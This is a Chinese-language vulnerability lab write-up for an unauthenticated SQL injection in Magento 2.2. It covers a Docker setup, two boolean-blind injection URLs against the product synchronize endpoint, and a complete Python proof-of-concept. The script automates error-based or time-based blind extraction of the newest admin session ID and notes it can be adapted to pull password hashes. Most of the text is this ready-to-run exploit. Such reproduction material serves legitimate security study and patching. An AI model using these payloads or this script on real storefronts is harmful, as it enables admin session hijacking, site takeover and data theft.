



# Magento 2.2 SQL注入漏洞

## 漏洞描述

Magento（麦进斗）是一款新的专业开源电子商务平台，采用php进行开发，使用Zend Framework框架。设计得非常灵活，具有模块化架构体系和丰富的功能。

其prepareSqlCondition函数存在一处二次格式化字符串的bug，导致引入了非预期的单引号，造成SQL注入漏洞。

参考链接：

- https://www.ambionics.io/blog/magento-sqli
- https://devdocs.magento.com/guides/v2.2/release-notes/ReleaseNotes2.2.8CE.html

## 环境搭建

Vulhub执行如下命令启动Magento 2.2.7：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到Magento的安装页面。安装Magento时，数据库地址填写`mysql`，账号密码均为`root`，其他保持默认：



## 漏洞复现

分别访问如下链接：

```
http://your-vp-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-
```



```
http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-
```



可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`时，返回的HTTP状态码不同。

通过改变OR的条件，即可实现SQL BOOL型盲注。

## 漏洞POC

利用[这个POC](https://github.com/ambionics/magento-exploits)，可以读取管理员的session：

```python
#!/usr/bin/env python3
# Magento 2.2.0 <= 2.3.0 Unauthenticated SQLi
# Charles Fol
# 2019-03-22
#
# SOURCE & SINK
# The sink (from-to SQL condition) has been present from Magento 1.x onwards.
# The source (/catalog/product_frontend_action/synchronize) from 2.2.0.
# If your target runs Magento < 2.2.0, you need to find another source.
#
# SQL INJECTION
# The exploit can easily be modified to obtain other stuff from the DB, for
# instance admin/user password hashes.
#

import requests
import string
import binascii
import re
import random
import time
import sys
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

def run(url):
    sqli = SQLInjection(url)

    try:
        sqli.find_test_method()
        sid = sqli.get_most_recent_session()
    except ExploitError as e:
        print('Error: %s' % e)


def random_string(n=8):
    return ''.join(random.choice(string.ascii_letters) for _ in range(n))


class ExploitError(Exception):
    pass


class Browser:
    """Basic browser functionality along w/ URLs and payloads.
    """
    PROXY = None

    def __init__(self, URL):
        self.URL = URL
        self.s = requests.Session()
        self.s.verify = False
        if self.PROXY:
            self.s.proxies = {
                'http': self.PROXY,
                'https': self.PROXY,
            }


class SQLInjection(Browser):
    """SQL injection stuff.
    """

    def encode(self, string):
        return '0x' + binascii.b2a_hex(string.encode()).decode()

    def find_test_method(self):
        """Tries to inject using an error-based technique, or falls back to timebased.
        """
        for test_method in (self.test_error, self.test_timebased):
            if test_method('123=123') and not test_method('123=124'):
                self.test = test_method
                break
        else:
            raise ExploitError('Test SQL injections failed, not vulnerable ?')

    def test_timebased(self, condition):
        """Runs a test. A valid condition results in a sleep of 1 second.
        """
        payload = '))) OR (SELECT*FROM (SELECT SLEEP((%s)))a)=1 -- -' % condition
        r = self.s.get(
            self.URL + '/catalog/product_frontend_action/synchronize',
            params={
                'type_id': 'recently_products',
                'ids[0][added_at]': '',
                'ids[0][product_id][from]': '?',
                'ids[0][product_id][to]': payload
            }
        )
        return r.elapsed.total_seconds() > 1

    def test_error(self, condition):
        """Runs a test. An invalid condition results in an SQL error.
        """
        payload = '))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE %s) -- -' % condition
        r = self.s.get(
            self.URL + '/catalog/product_frontend_action/synchronize',
            params={
                'type_id': 'recently_products',
                'ids[0][added_at]': '',
                'ids[0][product_id][from]': '?',
                'ids[0][product_id][to]': payload
            }
        )
        if r.status_code not in (200, 400):
            raise ExploitError(
                'SQL injection does not yield a correct HTTP response'
            )
        return r.status_code == 400

    def word(self, name, sql, size=None, charset=None):
        """Dichotomically obtains a value.
        """
        pattern = 'LOCATE(SUBSTR((%s),%d,1),BINARY %s)=0'
        full = ''

        check = False
        
        if size is None:
            # Yeah whatever
            size_size = self.word(
                name,
                'LENGTH(LENGTH(%s))' % sql,
                size=1,
                charset=string.digits
            )
            size = self.word(
                name,
                'LENGTH(%s)' % sql,
                size=int(size_size),
                charset=string.digits
            )
            size = int(size)

        print("%s: %s" % (name, full), end='\r')

        for p in range(size):
            c = charset
            
            while len(c) > 1:
                middle = len(c) // 2
                h0, h1 = c[:middle], c[middle:]
                condition = pattern % (sql, p+1, self.encode(h0))
                c = h1 if self.test(condition) else h0

            full += c
            print("%s: %s" % (name, full), end='\r')

        print(' ' * len("%s: %s" % (name, full)), end='\r')

        return full

    def get_most_recent_session(self):
        """Grabs the last created session. We don't need special privileges aside from creating a product so any session
        should do. Otherwise, the process can be improved by grabbing each session one by one and trying to reach the
        backend.
        """
        # This is the default admin session timeout
        session_timeout = 900
        query = (
            'SELECT %%s FROM admin_user_session '
            'WHERE TIMESTAMPDIFF(SECOND, updated_at, NOW()) BETWEEN 0 AND %d '
            'ORDER BY created_at DESC, updated_at DESC LIMIT 1'
        ) % session_timeout

        # Check if a session is available

        available = not self.test('(%s)=0' % (query % 'COUNT(*)'))
        
        if not available:
            raise ExploitError('No session is available')
        print('An admin session is available !')

        # Fetch it

        sid = self.word(
            'Session ID',
            query % 'session_id',
            charset=string.ascii_lowercase + string.digits,
            size=26
        )
        print('Session ID: %s' % sid)
        return sid

run(sys.argv[1])
```

